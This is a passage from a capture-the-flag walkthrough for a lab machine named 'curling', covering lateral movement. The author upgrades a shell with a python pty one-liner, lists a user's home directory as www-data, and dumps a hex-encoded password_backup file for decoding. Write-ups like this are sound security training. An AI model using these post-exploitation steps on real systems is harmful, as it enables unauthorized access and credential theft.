 ## Lateral Movement:

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

looking for suspicious file/s
```
www-data@curling:/var/www/html$ cd /home/floris

www-data@curling:/home/floris$ ls -la

total 44
drwxr-xr-x 6 floris floris 4096 May 22  2018 .
drwxr-xr-x 3 root   root   4096 May 22  2018 ..
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 May 22  2018 .cache
drwx------ 3 floris floris 4096 May 22  2018 .gnupg
drwxrwxr-x 3 floris floris 4096 May 22  2018 .local
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt

www-data@curling:/home/floris$ cat password_backup

00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

decoding in cyberchef (from hexdump + magic)
